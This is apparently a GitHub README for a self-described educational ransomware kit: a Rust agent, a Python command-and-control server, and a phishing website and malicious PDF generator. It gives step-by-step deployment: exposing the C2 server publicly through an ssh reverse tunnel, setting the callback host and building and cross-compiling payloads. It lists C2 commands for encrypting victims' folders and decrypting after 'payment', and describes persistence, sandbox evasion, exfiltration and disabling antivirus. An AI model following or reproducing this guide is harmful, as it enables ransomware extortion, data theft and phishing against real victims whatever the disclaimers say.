


# Rust Malware Simulation (Edu-Ransomware)


> **IMPORTANT LEGAL NOTICE & DISCLAIMER**
>
> This software was developed **exclusively for educational purposes** and security research.
>
> - Using this software on systems without explicit authorization is **illegal** and may result in criminal prosecution.
> - The author assumes **no liability** for damages caused by the use or misuse of this software.
> - **NEVER** run this malware on production systems. Always use an isolated Virtual Machine (VM).

---

## About the Project

This project demonstrates how a modern ransomware attack works under controlled laboratory conditions. It serves as an educational tool for understanding malware mechanics, encryption techniques, and command-and-control infrastructure.

### Key Components

| Component | Language | Description |
|-----------|----------|-------------|
| **Malware Agent** | Rust | Cross-platform agent with encryption, persistence, and evasion capabilities |
| **C2 Server** | Python | Multi-client command-and-control server for bot management |
| **Delivery System** | Python/HTML | Phishing website and PDF-based payload delivery |

---

## Features

- **AES-256-CTR Encryption** – Atomic file encryption with streaming to prevent data corruption
- **Cross-Platform Support** – Runs on Linux, Windows, and macOS
- **Reverse Shell** – Bypasses firewalls by initiating outbound connections
- **Persistence Mechanisms**:
  - Windows: Registry autostart (`HKCU\...\Run`)
  - Linux: Systemd user service
  - macOS: LaunchAgent
- **Evasion Techniques** – Sandbox/VM detection via RAM and CPU core checks
- **Stealth Mode** – Hidden console on Windows, daemon mode on Linux
- **Data Exfiltration** – Automated file upload to C2 server
- **Phishing Toolkit** – Includes fake website and malicious PDF generator

---

## Architecture

### Network Communication (Reverse Shell)

The client actively connects outward to the server, bypassing typical firewall rules that block incoming traffic.



### Atomic Encryption Process

To prevent data loss during crashes, the agent uses an atomic write procedure.



---

## Getting Started

### Prerequisites

- **Rust** (1.70+) – [Install Rust](https://rustup.rs/)
- **Python** (3.8+) – Standard library only, no pip packages required
- **SSH client** – For tunneling (Pinggy.io)
- **Isolated VM** – Required for testing

### Quick Start

#### 1. Start the C2 Server

```bash
cd c2_server
python3 server.py
```

The server listens on port **4444** by default.

#### 2. Create Public Tunnel (Pinggy.io)

In a **separate terminal**, create a public tunnel:

```bash
ssh -p 443 -R0:localhost:4444 tcp@a.pinggy.io
```

Note the output URL and port:
```
tcp://example-12-34-56-78.a.free.pinggy.link:39005
Host: example-12-34-56-78.a.free.pinggy.link
Port: 39005
```

> Keep this terminal open – closing it breaks the connection.

#### 3. Configure & Build the Agent

Edit `malware_agent/src/main.rs` with your tunnel details:

```rust
const C2_IP: &str = "example-12-34-56-78.a.free.pinggy.link";
const C2_PORT: u16 = 39005;
```

Build the release binary:

```bash
cd malware_agent
cargo build --release
```

**Output locations:**
- Linux/macOS: `./target/release/rust-mw`
- Windows: `.\target\release\rust-mw.exe`

#### 4. Cross-Compile for Windows (from Linux)

```bash
rustup target add x86_64-pc-windows-gnu
cargo build --release --target x86_64-pc-windows-gnu
```

### Automated Build Script

Use the included build script to compile for all platforms and generate phishing payloads:

```bash
./build_payloads.sh
```

This creates payloads in `delivery/DbD-Site/files/`.

---

## C2 Server Commands

Once a victim executes the payload, you'll see:

```
[+] New connection: ID 1 from ...
```

### Available Commands

| Command | Description |
|---------|-------------|
| `sessions` | List all connected bots |
| `interact <ID>` | Enter interactive mode with a specific bot |
| `encrypt <ID> <PATH>` | Encrypt a folder on the victim's system |
| `decrypt <ID> [PATH]` | Decrypt files (defaults to root directory) |
| `broadcast <CMD>` | Send command to all connected bots |
| `help` | Display help menu |
| `exit` | Shut down the server |

### Example Workflow

```bash
# Check connections
C2> sessions

# Interact with victim 1
C2> interact 1

# Start encryption on desktop
ID 1> encrypt /home/user/Desktop

# Decrypt after "payment"
ID 1> decrypt

# Return to main menu
ID 1> background
```

---

## Project Structure

```
rust-mw/
├── malware_agent/           # Rust malware agent
│   ├── src/
│   │   ├── main.rs          # Entry point & C2 configuration
│   │   ├── crypto.rs        # AES-256-CTR encryption
│   │   ├── persistence.rs   # Autostart mechanisms
│   │   ├── evasion.rs       # VM/Sandbox detection
│   │   ├── network.rs       # C2 communication
│   │   ├── extortion.rs     # Ransom note generation
│   │   └── background.rs    # Daemon/stealth mode
│   └── Cargo.toml
├── c2_server/               # Python C2 server
│   ├── server.py            # Multi-threaded server
│   └── loot/                # Exfiltrated files
├── delivery/                # Payload delivery
│   ├── DbD-Site/            # Phishing website
│   │   ├── server.py
│   │   └── public/          # HTML/CSS files
│   └── pdf_phishing/        # Malicious PDF generator
├── build_payloads.sh        # Automated build script
├── run_c2.sh                # C2 server launcher
├── run_delivery.sh          # Delivery server launcher
└── run_pinggy.sh            # Tunnel launcher
```

---

## Technical Details

### Encryption

- **Algorithm:** AES-256-CTR (via RustCrypto)
- **Key Storage:** `rescue.key` saved locally (in production, this would be sent to C2)
- **Process:** Streaming encryption with 4KB chunks for memory efficiency

### Persistence

| OS | Method |
|----|--------|
| Windows | Registry key `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
| Linux | Systemd user service `~/.config/systemd/user/malware.service` |
| macOS | LaunchAgent `~/Library/LaunchAgents/` |

### Evasion

The agent detects sandboxes/VMs by checking:
- Available RAM (< 2GB = suspicious)
- CPU core count (< 2 = suspicious)

---

## Dependencies

### Rust Agent (`malware_agent/Cargo.toml`)

- `aes`, `ctr`, `cipher` – AES-256-CTR encryption
- `walkdir` – Directory traversal
- `dirs` – Cross-platform directory detection
- `sysinfo` – System information for evasion
- `daemonize` – Unix daemon mode
- `chrono` – Timestamp handling
- `anyhow` – Error handling

### C2 Server

- Python 3.8+ standard library only (no external dependencies)

---

## Security Notes

1. **Antivirus Warning:** Windows Defender and other AV software will likely flag/delete the payload. Add an exception or disable real-time protection for testing.

2. **Network Isolation:** Always test in an isolated network environment.

3. **VM Snapshots:** Take a VM snapshot before running the malware.

---

## Educational Resources

This project covers concepts including:
- Reverse shell architecture
- Symmetric encryption (AES-CTR mode)
- Persistence techniques across operating systems
- Sandbox/VM evasion methods
- Command-and-control infrastructure
- Social engineering (phishing)

---

## Contributing

Contributions for educational improvements are welcome. Please ensure any changes:
- Maintain the educational focus
- Include documentation
- Do not add features designed for malicious use

---

## License

MIT License – See full license text below.

```
MIT License
Copyright (c) 2024 Tim Lukas

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

**ETHICAL USE CLAUSE:** By using this software, you agree to use it only for educational purposes or on systems you own or have explicit permission to test. The author is not responsible for any misuse.

---

## Support

For questions or issues:
- Open an issue in this repository
- Ensure you've read this README thoroughly before asking

> **Remember:** This is educational software. Do not use it for malicious purposes.
